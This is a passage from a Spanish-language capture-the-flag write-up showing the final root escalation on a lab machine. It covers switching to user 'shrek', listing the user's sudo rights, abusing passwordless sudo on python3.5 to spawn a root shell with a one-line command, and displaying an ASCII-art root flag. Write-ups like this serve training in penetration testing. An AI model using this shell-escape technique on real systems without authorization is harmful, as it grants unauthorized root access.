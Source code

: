 ```shell
su shrek
```

Hecho esto ya seriamos ese usuario, pero si hacemos `sudo -l` veremos lo siguiente...

```
Matching Defaults entries for shrek on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shrek may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/python3.5
```

Por lo que, si hacemos esto seriamos `root`...

```shell
sudo python3.5 -c 'import os; os.system("/bin/sh")'
```

Ahora siendo `root` leeremos la flag...

> root.txt (flag2)

`````
                            ____
        ____....----''''````    |.
,'''````            ____....----; '.
| __....----''''````         .-.`'. '.
|.-.                .....    | |   '. '.
`| |        ..:::::::::::::::| |   .-;. |
 | |`'-;-::::::::::::::::::::| |,,.| |-='
 | |   | ::::::::::::::::::::| |   | |
 | |   | :::::::::::::::;;;;;| |   | |
 | |   | :::::::::;;;2KY2KY2Y| |   | |
 | |   | :::::;;Y2KY2KY2KY2KY| |   | |
 | |   | :::;Y2Y2KY2KY2KY2KY2| |   | |
 | |   | :;Y2KY2KY2KY2KY2K+++| |   | |
 | |   | |;2KY2KY2KY2++++++++| |   | |
 | |   | | ;++++++++++++++++;| |   | |
 | |   | |  ;++++++++++++++;.| |   | |
 | |   | |   :++++++++++++:  | |   | |
 | |   | |    .:++++++++;.   | |   | |
 | |   | |       .:;+:..     | |   | |
 | |   | |         ;;        | |   | |
 | |   | |      .,:+;:,.     | |   | |
 | |   | |    .::::;+::::,   | |   | |
 | |   | |   ::::::;;::::::. | |   | |
 | |   | |  :::::::+;:::::::.| |   | |
 | |   | | ::::::::;;::::::::| |   | |
 | |   | |:::::::::+:::::::::| |   | |
 | |   | |:::::::::+:::::::::| |   | |
 | |   | ::::::::;+++;:::::::| |   | |
 | |   | :::::::;+++++;::::::| |   | |
 | |   | ::::::;+++++++;:::::| |   | |
 | |   |.:::::;+++++++++;::::| |   | |
 | | ,`':::::;+++++++++++;:::| |'"-| |-..
 | |'   ::::;+++++++++++++;::| |   '-' ,|
 | |    ::::;++++++++++++++;:| |     .' |
,;-'_   `-._===++++++++++_.-'| |   .'  .'
|    ````'''----....___-'    '-' .'  .'
'---....____           ````'''--;  ,'
            ````''''----....____|.'
`````
